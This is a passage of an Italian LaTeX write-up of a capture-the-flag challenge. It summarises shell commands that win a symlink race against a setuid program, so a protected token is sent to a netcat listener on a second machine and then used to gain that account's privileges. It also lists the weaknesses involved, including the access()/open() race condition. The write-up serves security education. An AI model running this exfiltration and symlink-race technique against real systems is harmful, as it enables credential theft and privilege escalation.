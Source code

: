 \subsection{Sintesi comandi da eseguire}
\subsubsection{Sulla seconda macchina virtuale}
\begin{lstlisting}[style=bashstyle]
    # recupera ip
    ip addr
    # metti in ascolto sulla porta 18211
    nc -lvnp 18211
\end{lstlisting}

\subsubsection{Sulla macchina principale}
\begin{lstlisting}[style=bashstyle]
    # crea token finto
    touch /tmp/tokenfinto
    # scrivi test dentro tokenfinto
    echo "test" > /tmp/tokenfinto
    # crea loop infinito che scambia il symlink tra token e tokenfinto
    while true; do ln -sf /tmp/tokenfinto /home/level10/flag; ln -sf /home/flag10/token /home/level10/flag; done &
    # crea ciclo per eseguire all'infinito flag10
    while true; do /home/flag10/flag10 /home/level10/flag IPAddress; done
\end{lstlisting}
Otteniamo il token sulla seconda macchina, lo usiamo per autenticarci come flag10 nella macchina principale, eseguiamo \textbf{/bin/getflag} e vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Privilegi di esecuzione ingiustamente elevati.
    \item Versione bash che non abbassa i privilegi di esecuzione.
    \item L'utilizzo della funzione \textbf{access()} seguito da una \textbf{open()} comporta un buco di sicurezza (race condition):
    \begin{itemize}
        \item Situazione in cui il risultato dell'esecuzione di un insieme di processi, che condividono una risorsa, dipende dall'ordine in cui essi sono eseguiti.
    \end{itemize}
\end{itemize}

